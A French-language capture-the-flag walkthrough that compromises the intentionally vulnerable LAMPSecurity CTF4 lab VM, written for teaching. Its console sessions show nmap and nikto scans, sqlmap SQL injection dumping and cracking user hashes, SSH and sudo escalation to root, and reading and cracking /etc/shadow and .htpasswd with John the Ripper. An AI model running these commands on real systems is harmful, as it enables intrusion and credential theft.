





# LAMPSecurity: CTF4

Lecture recommandée : [Walkthrough sur le challenge LAMPSecurity: CTF5](/CTF-VulnLabs/lampsecurity-CTF5)

[LAMPSecurity](https://sourceforge.net/projects/lampsecurity/) est un projet conçu par
[le chercheur en sécurité madirish2600](https://www.vulnhub.com/author/madirish2600,75/), qui nous gratifie d'un ensemble de machines virtuelles volontairement vulnérables. L'objectif est de trouver et d'exploiter des vulnérabilités sur chacune de ces VM, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Ce _walkthrough_ sera consacré à la résolution complète de la quatrième VM de la série, [LAMPSecurity CTF4](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/). Vous voilà prévenus et pour paraphraser [la chaîne YouTube CinemaSins](https://www.youtube.com/channel/UCYUQQgogVeQY8cMQamhHJcg) : spoilers!! (duh..)

## Recherche d'informations

Comme pour le challenge CTF5, [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM LAMPSecurity CTF4.

```console
root@blinils:~# ifconfig | grep broadcast
        inet 192.168.15.130  netmask 255.255.255.0  broadcast 192.168.15.255

root@blinils:~# netdiscover -r 192.168.15.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.15.1    00:50:56:c0:00:01      1      60  VMware, Inc.
192.168.15.131  00:0c:29:28:a6:ad      1      60  VMware, Inc.
192.168.15.254  00:50:56:50:56:50      1      60  VMware, Inc.
```

192.168.15.130 est l'adresse IP de ma machine virtuelle [Kali](https://www.kali.org/docs/introduction/what-is-kali-linux/), tandis que 192.168.15.131 correspond à l'adresse IP de la VM LAMPSecurity CTF4. À présent, c'est au tour de l'outil [__nmap__](https://nmap.org/book/man.html) d'être lancé afin de détecter les ports ouverts sur le serveur CTF4, d'identifier les services installés et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV 192.168.15.131 --script=http-enum

Nmap scan report for 192.168.15.131
Host is up (0.031s latency).
Not shown: 996 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
25/tcp  open   smtp    Sendmail 8.13.5/8.13.5
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.php: Possible admin folder
|   /admin/login.php: Possible admin folder
|   /admin/admin.php: Possible admin folder
|   /robots.txt: Robots file
|   /icons/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /inc/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /pages/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|   /restricted/: Potentially interesting folder (401 Authorization Required)
|   /sql/: Potentially interesting directory w/ listing on 'apache/2.2.0 (fedora)'
|_  /usage/: Potentially interesting folder
|_http-server-header: Apache/2.2.0 (Fedora)
631/tcp closed ipp
MAC Address: 00:0C:29:28:A6:AD (VMware)
```

Toutes ces informations glanées en quelques minutes vont permettre à une personne malveillante de peaufiner ses attaques à venir : ainsi, il est possible de [se connecter à distance avec SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) au serveur LAMPSecurity CTF4 (port 22), un serveur Web Apache 2.2.0 (port 80) et un serveur de messagerie électronique (ports 25) y sont installés. Pour chacun de ces services, il est désormais temps de partir à la chasse aux vulnérabilités.

## Recherche de vulnérabilités

Le serveur Web semble a priori le plus alléchant pour commencer ; il y a tellement de pages,
de pistes intéressantes à creuser que l'on ne sait plus où donner de la tête. Entre autres...

* ```/index.html``` qui affiche des informations en fonction du paramètre ```page``` : blog, research, contact...
* ```/index.html?page=blog``` cinq billets de blog signés jdurbin et sorzek, potentiellement des noms d'utilisateur pour de futurs accès en SSH ?
* ```/index.html?page=research``` un long laïus Lorem Ipsum... une légende ancestrale raconte que le mot de passe root y serait dissimulé
* ```/index.html?page=search&title=keyword``` un formulaire de recherche sur le site
* ```/mail``` un formulaire d'authentification au webmail SquirrelMail version 1.4.17
* ```/restricted``` un répertoire protégé par mot de passe, très certainement à l'aide d'un .htaccess
* ```/conf``` qui renvoie systématiquement une _Internal Server Error_ mais on y apprend qu'un dénommé dstevens est administrateur
* ```/sql``` un répertoire en libre accès qui contient un unique fichier, ```db.sql```
* ```/admin``` un formulaire d'authentification
* ```/usage``` des statistiques issues du logiciel Webalizer : nombre de hits et de visites, pays d'origine des visiteurs...

Après avoir parcouru manuellement le site, un peu de recherche automatisée ne fera pas de mal avec [__nikto__](https://cirt.net/nikto2-docs/), un outil d'audit pour serveurs Web.

```console
root@blinils:~# nikto -h http://192.168.15.131
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.15.131
+ Target Hostname:    192.168.15.131
+ Target Port:        80
+ Start Time:         2018-01-01 12:34:54 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.2.0 (Fedora)
+ Retrieved x-powered-by header: PHP/5.1.2
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server leaks inodes via ETags, header found with file /robots.txt, inode: 487720, size: 104, mtime: Wed Dec 10 00:39:44 2014
+ Entry '/mail/' in robots.txt returned a non-forbidden or redirect HTTP code (302)
+ Entry '/conf/' in robots.txt returned a non-forbidden or redirect HTTP code (500)
+ OSVDB-3268: /sql/: Directory indexing found.
+ Entry '/sql/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/admin/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 5 entries which should be manually viewed.
+ Apache/2.2.0 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-5034: /admin/login.php?action=insert&username=test&password=test: phpAuction may allow user admin accounts to be inserted without proper authentication. Attempt to log in with user 'test' password 'test' to verify.
+ OSVDB-682: /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). http://www.cert.org/advisories/CA-2000-02.html.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /pages/: Directory indexing found.
+ OSVDB-3092: /pages/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /mail/src/read_body.php: SquirrelMail found
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
+ OSVDB-9624: /admin/admin.php?adminpy=1: PY-Membres 4.2 may allow administrator access.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/login.php: Admin login page/section found.
+ 8502 requests: 1 error(s) and 32 item(s) reported on remote host
+ End Time:           2018-01-01 12:34:56 (GMT1) (2 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

## Exploitation des vulnérabilités

Go go go!

### Local File Inclusion (LFI) sur la page index.html



Outre les logins habituels root, bin, daemon, apache, mysql... six utilisateurs sont particulièrement intéressants : Don Stevens (dstevens), Andrew Chen (achen), Phillip Moore (pmoore), James Durbin (jdurbin), Sally Orzek (sorzek) et Greg Highland (ghighland). La prochaine étape logique sera de trouver le mot de passe de chacun d'entre eux, puis de se connecter avec leur compte en SSH. Mais avant cela, il y a d'autres pistes potentiellement intéressantes, remontées par nikto, à analyser.

### db.sql

Un fichier SQL est accessible sans authentification à l'adresse suivante : ```http://192.168.15.131/sql/db.sql```

Il s'agit du script de création de la base de données ```ehks``` avec trois tables : ```user```, ```blog``` et ```comment```.

Ces informations seront très utiles si une injection SQL venait à être trouvée sur le site... _you don't say?_

```console
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

### Injection SQL et dump de la base de données

L'insertion d'une seule apostrophe suffit à démontrer la présence d'une [injection SQL](https://owasp.org/www-community/attacks/SQL_Injection), a minima sur le champ ```id```.



Afin d'éviter de longs tests manuels fastidieux, pour trouver la bonne syntaxe permettant d'exfiltrer les données de la base MySQL, __SQLMap__ vient à la rescousse. Il s'agit [d'un outil open source permettant d'identifier et d'exploiter une injection SQL](https://connect.ed-diamond.com/MISC/MISC-062/Utilisation-avancee-de-sqlmap) sur des applications Web. En lui spécifiant l'URL du site Web ainsi que les paramètres à tester, SQLMap va tester différentes techniques afin d'identifier la présence d'une injection SQL...

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2"

--snip--
[12:35:46] [INFO] testing connection to the target URL
[12:35:46] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:35:46] [INFO] testing if the target URL content is stable
[12:35:46] [INFO] target URL content is stable
--snip--
[12:35:46] [INFO] testing if GET parameter 'title' is dynamic
[12:35:46] [WARNING] GET parameter 'title' does not appear to be dynamic
[12:35:46] [WARNING] heuristic (basic) test shows that GET parameter 'title' might not be injectable
[12:35:46] [INFO] heuristic (XSS) test shows that GET parameter 'title' might be vulnerable to cross-site scripting (XSS) attacks
[12:35:46] [INFO] testing for SQL injection on GET parameter 'title'
--snip--
[12:35:46] [WARNING] GET parameter 'title' does not seem to be injectable
[12:35:46] [INFO] testing if GET parameter 'id' is dynamic
[12:35:46] [INFO] confirming that GET parameter 'id' is dynamic
[12:35:46] [INFO] GET parameter 'id' is dynamic
[12:35:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:35:46] [INFO] testing for SQL injection on GET parameter 'id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
--snip--
[12:35:46] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[12:35:46] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[12:35:46] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[12:35:46] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[12:35:46] [INFO] target URL appears to have 5 columns in query
[12:35:46] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
--snip--
[12:35:46] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.12
[12:35:46] [ERROR] user quit
```

En quelques secondes à peine, SQLMap a détecté qu'il s'agit d'une base de données MySQL et que le troisième paramètre testé ```id``` est vulnérable aux injections SQL. Après plusieurs tentatives, SQLMap récupère les tables ```--tables``` ainsi que les colonnes ```--columns``` présentes dans chaque base de données trouvée ```--dbs```, et tant qu'à faire, autant récupérer tout le contenu de la base de données avec ```--dump-all```.

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2" --dbms=MySQL --dbs -v0

--snip--
web server operating system: Linux Fedora 5 (Bordeaux)
web application technology: Apache 2.2.0, PHP 5.1.2
back-end DBMS: MySQL >= 5.0.0
available databases [5]:
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
--snip--
```

La table ehks était déjà connue grâce au fichier ```db.sql``` trouvé auparavant. C'est parti pour le dump des données !

```console
root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2" --dbms=MySQL -D ehks --tables
--snip--
[22:34:56] [INFO] fetching tables for database: 'ehks'
Database: ehks
[3 tables]
+---------+
| user    |
| blog    |
| comment |
+---------+
--snip--

root@blinils:~# sqlmap -u "http://192.168.15.131/index.html?page=blog&title=Blog&id=2" --dbms=MySQL --dump -D ehks -T user
--snip--
[12:13:14] [INFO] fetching columns for table 'user' in database 'ehks'
[12:13:14] [INFO] fetching entries for table 'user' in database 'ehks'
[12:13:14] [INFO] recognized possible password hashes in column 'user_pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[12:13:14] [INFO] writing hashes to a temporary file '/tmp/sqlmapCZXRQu2095/sqlmaphashes-UM_AsC.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[12:13:14] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[12:13:14] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[12:13:14] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[12:13:14] [WARNING] multiprocessing hash cracking is currently not supported on this platform
[12:13:14] [INFO] cracked password 'convertible' for user 'sorzek'
[12:13:14] [INFO] cracked password 'Homesite' for user 'pmoore'
[12:13:14] [INFO] cracked password 'ilike2surf' for user 'dstevens'
[12:13:14] [INFO] cracked password 'seventysixers' for user 'achen'
[12:13:14] [INFO] cracked password 'Sue1978' for user 'jdurbin'
[12:13:14] [INFO] cracked password 'undone1' for user 'ghighland'
Database: ehks
Table: user
[6 entries]
+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | e0a23947029316880c29e8533d8662a3 (convertible)   |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

[L'attaque par dictionnaire sur les hashs de mots de passe](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) trouvés par SQLMap a porté ses fruits : six mots de passe ont ainsi pu être récupérés. La découverte de ces mots de passe permet à un attaquant de se connecter sur le webmail SquirrelMail ```/mail/``` en tant que ```dstevens```, ```achen```, ```pmoore```, ```jdurbin``` ou encore ```ghighland```... mais pas ```sorzek``` !

### Accès SSH et élévation de privilèges, partie 1

Inutile de lancer une attaque par dictionnaire avec [__Hydra__](https://sectools.org/tool/hydra/), les mots de passe trouvés dans la base de données semblent fonctionner partout !

```console
root@blinils:~# ssh dstevens@192.168.15.131
The authenticity of host '192.168.15.131 (192.168.15.131)' can't be established.
RSA key fingerprint is SHA256:NDWh6/414mOsW4P7K6ICc5R67PrX87ADMFUx9DK9ftk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.15.131' (RSA) to the list of known hosts.
BSD SSH 4.1
dstevens@192.168.15.131's password: 
Last login: Mon Mar  9 07:48:18 2009 from 192.168.0.50

[dstevens@ctf4 ~]$ sudo -l
Password:
User dstevens may run the following commands on this host:
    (ALL) ALL
[dstevens@ctf4 ~]$ sudo su
[root@ctf4 dstevens]#
```

dstevens a des droits plutôt... permissifs, et on passe root très (trop !) facilement.

```console
[root@ctf4 dstevens]# cd /home/dstevens/html/restricted/
[root@ctf4 restricted]# ls -al
total 64
drwxrwsr-x  2 jdurbin users  4096 déc  1  2016 .
drwxrwsr-x 10 jdurbin users  4096 déc  1  2016 ..
-rw-rw-r--  1 jdurbin users   226 déc  1  2016 blog_instructions.txt
-rw-------  1 jdurbin users 12288 mar  9  2009 .email_instructions.txt.swp
-rw-rw-r--  1 jdurbin users   130 mar  9  2009 .htaccess
-rw-rw-r--  1 jdurbin users    88 mar  9  2009 .htpasswd
-rw-rw-r--  1 jdurbin users   210 déc  1  2016 webmail_instructions.txt
[root@ctf4 restricted]# cat .htaccess
AuthType Basic
AuthName "Restricted - authentication required"
AuthUserFile /var/www/html/restricted/.htpasswd
Require valid-user
[root@ctf4 restricted]# cat .htpasswd
ghighland:8RkVRDjjkJhq6
pmoore:xHaymgB2KxbJU
jdurbin:DPdoXSwmSWpYo
sorzek:z/a8PtVaqxwWg 
```

Le répertoire ```restricted``` ne le sera plus, dès lors que [__John The Ripper__](https://www.openwall.com/john/) n'aura fait qu'une bouchée de ces mots de passe.

```console
root@blinils:~# john .htpasswd --wordlist=/usr/share/dict/rockyou.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
pacman           (sorzek)
undone1          (ghighland)
Homesite         (pmoore)
```

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Le fichier ```/etc/shadow``` est particulièrement intéressant, car [il contient les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil [__John The Ripper__](https://www.openwall.com/john/) est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
[root@ctf4 ~]# cat /etc/shadow
root:$1$DSHH/MlC$DH8ClhHKeagYW4PwxICZC0:14309:0:99999:7:::
bin:*:14309:0:99999:7:::
daemon:*:14309:0:99999:7:::
adm:*:14309:0:99999:7:::
lp:*:14309:0:99999:7:::
--snip--
nfsnobody:!!:14309:0:99999:7:::
sshd:!!:14309:0:99999:7:::
dstevens:$1$fU8HOHqa$N542xtl0ft8NmsYkv5NFo/:14309:0:99999:7:::
achen:$1$kxyn25Oz$w.MMADGQYIq4F52hi9DUQ.:14309:0:99999:7:::
pmoore:$1$p0RXlomV$m03UsjoTZ08qG8gbWHgST0:14309:0:99999:7:::
jdurbin:$1$CYmEyuc.$FXAeZHkhywwENbqE8h0O.0:14309:0:99999:7:::
sorzek:$1$cWeWNRdU$VTtlKsoRBmhMghnkSwqCQ.:14312:0:99999:7:::
ghighland:$1$ooKvtZEY$N2RpSaIylgFlHnBkbwUGz0:14309:0:99999:7:::
ossec:!!:14312:0:99999:7:::
ossecm:!!:14312:0:99999:7:::
ossecr:!!:14312:0:99999:7:::
```

Un troisième dictionnaire est appelé à la rescousse : [rockyou.txt](https://wiki.skullsecurity.org/Passwords).

```console
root@blinils:~# unshadow passwdCTF4.txt shadowCTF4.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
pacman           (sorzek)
undone1          (ghighland)
seventysixers    (achen)
root1234         (root)
Homesite         (pmoore)
5g 0:00:23:49 DONE (2018-02-08 00:14) 0.003497g/s 10030p/s 34296c/s 34296C/s       ...
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@blinils:~# john passwd.db --show
root:root1234:0:0:root:/root:/bin/bash
achen:seventysixers:501:501:Andrew Chen:/home/achen:/bin/bash
pmoore:Homesite:502:502:Phillip Moore:/home/pmoore:/bin/bash
sorzek:pacman:504:504:Sally Orzek:/home/sorzek:/bin/bash
ghighland:undone1:505:505:Greg Highland:/home/ghighland:/bin/bash

5 password hashes cracked, 2 left
```

### Accès SSH et élévation de privilèges, partie 2

Au tour d'Andrew Chen !

```console
root@blinils:~# ssh achen@192.168.15.131
BSD SSH 4.1
achen@192.168.15.131's password: 
Last login: Mon Mar  9 16:10:36 2009 from 192.168.0.51
[achen@ctf4 ~]$ head -n10 .bash_history
exit
clear
exit
sudo sy
su
root1234
su
exit
cat .bash_history 
su
[achen@ctf4 ~]$ 
```

Tiens donc, ne serait-ce pas le mot de passe de l'administrateur root dans le fichier ```.bash_history``` ?

```console
[achen@ctf4 ~]$ sudo -l
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[achen@ctf4 ~]$ sudo su
[root@ctf4 achen]# 
[root@ctf4 achen]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
```

De toute façon, Andrew a tous les droits et peut passer root sans mot de passe. Au tour de Sally Orzek !

```console
root@blinils:~# ssh sorzek@192.168.15.131
BSD SSH 4.1
sorzek@192.168.15.131's password: 
Last login: Thu Dec  1 15:25:25 2016 from 192.168.56.1

[sorzek@ctf4 ~]$ cat .bash_history
ls /home
logout
ifconfig
/sbin/ifconfig
/sbin/ifconfig | grep inet
ls -lah /var/www/html
ls /home
ls /home/achen
ls /home/jdurbin
ls /home/jdurbin/mail
mysql -u root
cd /var/www/html
ls
less index.html 
ls
ls conf
cat conf/config.ini 
mysql -u root -p 
su
su
```

Intéressant comme comportement.

Sally a consulté un fichier ```config.ini``` avant de se connecter à la base de données. Voyons voir ce que contient ce fichier.

```console
[sorzek@ctf4 ~]$ cd /var/www/html
[sorzek@ctf4 html]$ cat conf/config.ini
dbhost	=	localhost
db		=	ehks
dbuser	=	root
dbpass	=	database

[sorzek@ctf4 html]$
```

Bingo ! Sans le vouloir, Sally nous a conduit vers le mot de passe de la base de données MySQL.

### Accès à la base de données MySQL

Le mot de passe n'a pas été modifié depuis, il est alors possible de fouiller la base de données à la recherche des informations les plus intéressantes.

```console
[sorzek@ctf4 ~]$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5591 to server version: 5.0.18

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ehks               |
| mysql              |
| roundcubemail      |
| test               |
+--------------------+
5 rows in set (0.00 sec)

mysql> select table_schema, table_name from information_schema.tables;
+--------------------+---------------------------------------+
| table_schema       | table_name                            |
+--------------------+---------------------------------------+
--snip--
| information_schema | VIEWS                                 |
| information_schema | USER_PRIVILEGES                       |
| ehks               | blog                                  |
| ehks               | comment                               |
| ehks               | user                                  |
| mysql              | columns_priv                          |
| mysql              | db                                    |
--snip--
| mysql              | time_zone_transition_type             |
| mysql              | user                                  |
| roundcubemail      | cache                                 |
| roundcubemail      | contacts                              |
| roundcubemail      | identities                            |
| roundcubemail      | messages                              |
| roundcubemail      | session                               |
| roundcubemail      | users                                 |
+--------------------+---------------------------------------+
42 rows in set (0.00 sec)

mysql> select * from ehks.user;
+---------+-----------+----------------------------------+
| user_id | user_name | user_pass                        |
+---------+-----------+----------------------------------+
|       1 | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 |
|       2 | achen     | b46265f1e7faa3beab09db5c28739380 |
|       3 | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 |
|       4 | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 |
|       5 | sorzek    | e0a23947029316880c29e8533d8662a3 |
|       6 | ghighland | 9f3eb3087298ff21843cc4e013cf355f |
+---------+-----------+----------------------------------+
6 rows in set (0.00 sec)

mysql> select Host, User, Password from mysql.user;
+--------------------+-----------+------------------+
| Host               | User      | Password         |
+--------------------+-----------+------------------+
| localhost          | root      | 30599f1725b9f8a2 |
| ctf4.sas.upenn.edu | root      | 30599f1725b9f8a2 |
| ctf4.sas.upenn.edu |           |                  |
| localhost          |           |                  |
| localhost          | roundcube | 5d2e19393cc5ef67 |
+--------------------+-----------+------------------+
5 rows in set (0.00 sec)
```

Les mots de passe stockés dans la table ```ehks.users``` permettent de se connecter un peu partout (SSH, SquirrelMail...) sur le serveur.

```console
https://crackstation.net/
02e823a15a392b5aa4ff4ccb9060fa68 md5 ilike2surf
b46265f1e7faa3beab09db5c28739380 md5 seventysixers
8f4743c04ed8e5f39166a81f26319bb5 md5 Homesite
7c7bc9f465d86b8164686ebb5151a717 md5 Sue1978
e0a23947029316880c29e8533d8662a3 md5 convertible
9f3eb3087298ff21843cc4e013cf355f md5 undone1
```

### Bonus n°1 : Cross-Site Scripting sur plusieurs pages

Une _Cross-Site Scripting_, abrégée XSS, est l'une des failles de sécurité les plus répandues dans les applications Web. Elle peut être utilisée par un attaquant pour provoquer un comportement du site Web différent de celui désiré par le créateur de la page. Cette vulnérabilité est due à une validation incorrecte, côté serveur, des entrées provenant de l'utilisateur. Lors de l'accès à certaines pages du site Web, des paramètres HTTP (en-têtes, GET, POST) ou des éléments entrés par l'utilisateur sont réécrits directement dans la réponse du serveur, sans avoir été correctement validés, filtrés, nettoyés côté serveur. Un attaquant pourra alors injecter du code malveillant au lieu de données légitimes.

Ici avec le paramètre ```title``` de la page ```index.html```...



Ou encore le paramètre ```searchterm``` sous forme de mot-clé envoyé en HTTP POST au serveur.



